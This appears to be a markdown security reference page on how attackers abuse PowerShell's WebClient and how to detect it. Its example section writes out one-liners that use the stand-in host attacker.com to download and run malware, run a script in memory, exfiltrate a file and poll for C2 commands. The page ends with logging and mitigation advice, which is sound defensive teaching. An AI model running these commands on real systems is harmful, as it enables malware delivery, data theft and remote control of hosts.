 # PowerShell WebClient Abuse
## What is it?
*PowerShell provides a built-in ```WebClient``` (or ```Invoke-WebRequest```) that allows downloading and uploading files over HTTP, HTTPS, and FTP.*  
*Attackers exploit this functionality to **retrieve payloads, exfiltrate data, and establish C2 communication.***

*Because PowerShell is a **trusted system component**, many security tools fail to detect its misuse.*

## Legitimate Usage
- **Automate File Downloads** → Fetch updates, scripts, or data from the internet.
- **Upload Files to Remote Servers** → Send logs or reports to a central server.
- **Web Scraping & API Calls** → Interact with web services programmatically.
- **Automated Software Deployment** → Download and install software remotely.

## How to abuse it
- **File Download for Malware Execution** → Fetch and execute remote payloads.
- **Data Exfiltration** → Upload sensitive data to an external server.
- **Bypass Security Controls** → Use trusted PowerShell components to evade network monitoring.
- **C2 Communication** → Establish persistent communication with an attacker's server.

## Example Attacks
### 1. Download & Execute a Remote Payload
*Attackers can download and execute malware from a remote server using PowerShell's WebClient.*

```
$wc = New-Object System.Net.WebClient $wc.DownloadFile("http://attacker.com/malware.exe", "C:\Users\Public\malware.exe") Start-Process "C:\Users\Public\malware.exe"
```

**Effect:**
- Downloads ```malware.exe``` and executes it.
- No user interaction required.

### 2. In-Memory Execution (No Disk Write)
*Attackers avoid file-based detection by executing payloads directly in memory.*

```
IEX (New-Object System.Net.WebClient).DownloadString("http://attacker.com/payload.ps1")
```

**Effect:**
- Fetches and executes the PowerShell script **without writing to disk**.
- Evades traditional AV and file monitoring.

### 3. Data Exfiltration to an Attacker's Server
*PowerShell can send stolen data to an attacker's server using HTTP POST requests.*

```
$wc = New-Object System.Net.WebClient $data = Get-Content C:\SensitiveData.txt $wc.UploadString("http://attacker.com/upload", $data)
```

**Effect:**
- Reads ```SensitiveData.txt``` and sends it to ```attacker.com```.

### 4. C2 Communication via PowerShell WebClient
*Attackers can create a simple C2 channel using PowerShell WebClient.*

while ($true) { $cmd = (New-Object System.Net.WebClient).DownloadString("http://attacker.com/command") iex $cmd Start-Sleep 10 }

**Effect:**
- Contacts ```attacker.com``` for new commands every 10 seconds.
- Executes received commands **silently**.

## Detection & Mitigation
### Detection Methods
**Monitor Suspicious PowerShell Activity**
- **Event ID 4104 (Script Execution)** → Detects remote script execution.
- **Look for ```WebClient``` or ```Invoke-WebRequest``` usage** in PowerShell logs.

**Detect Unusual Network Traffic**
- **Event ID 5156 (Outbound Connection)** → Detects unexpected outbound connections.
- **Monitor for suspicious HTTP/HTTPS requests from PowerShell.**

**Identify Memory-Only Attacks**
- **Use PowerShell logging (Script Block Logging)** to detect in-memory execution.

### Mitigation Strategies
- **Restrict PowerShell Execution** → Use AppLocker or WDAC to enforce execution policies.
- **Disable Unused PowerShell Features** → Block ```Invoke-WebRequest``` and ```WebClient``` if not needed.
- **Monitor & Alert on Suspicious PowerShell Use** → Log and analyze all PowerShell executions.
- **Implement Network Monitoring** → Detect unauthorized outbound traffic from PowerShell.
